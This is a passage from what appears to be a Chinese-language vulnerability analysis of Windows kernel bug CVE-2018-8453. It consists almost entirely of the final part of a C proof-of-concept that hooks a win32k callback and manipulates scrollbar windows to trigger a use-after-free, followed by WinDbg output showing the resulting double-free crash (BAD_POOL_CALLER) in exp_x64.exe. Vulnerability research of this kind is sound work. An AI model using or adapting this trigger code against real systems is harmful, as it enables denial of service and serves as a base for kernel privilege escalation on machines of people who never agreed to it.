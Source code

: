 ```
        New_ScrollBar = CreateWindowExA(0, "SCROLLBAR", NULL, SBS_HORZ | WS_HSCROLL | WS_VSCROLL, NULL, NULL, 2, 2, NULL, NULL, GetModuleHandleA(0), NULL);
        NtUserSetWindowFNID(Window, 0x2A1);
        SetCapture(New_ScrollBar);
    }
 
    return org_xxxClientAllocWindowClassExtraBytes(arg0);
}
 
BOOL POC_CVE_2018_8453()
{
    BOOL bRet = TRUE;
 
    if (!CreateWindows())
    {
        bRet = FALSE;
        goto exit;
    }
 
    if (!HookFunc_CVE_2018_8453())
    {
        bRet = FALSE;
        goto exit;
    }
 
    g_Flag_2018_8453 = TRUE;
 
    SendMessageA(ScrollBar, WM_LBUTTONDOWN, MK_LBUTTON, 0x00080008);
 
exit:
    return bRet;
}
```  
  
  
  
编译运行POC就会产生BSOD错误，以下是部分错误信息：  
```
2: kd> !analyze -v
Connected to Windows 10 16299 x64 target at (Tue Jul 12 23:41:49.772 2022 (UTC + 8:00)), ptr64 TRUE
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************
 
BAD_POOL_CALLER (c2)
The current thread is making a bad pool request.  Typically this is at a bad IRQL level or double freeing the same allocation, etc.
Arguments:
Arg1: 0000000000000007, Attempt to free pool which was already freed
Arg2: 0000000074737355, Pool tag value from the pool header
Arg3: 000000002d080002, Contents of the first 4 bytes of the pool header
Arg4: ffffea21825a28f0, Address of the block of pool being deallocated
 
 
POOL_ADDRESS:  ffffea21825a28f0 Paged session pool
 
FREED_POOL_TAG:  Usst
 
PROCESS_NAME:  exp_x64.exe
 
STACK_TEXT:  
nt!DbgBreakPointWithStatus
```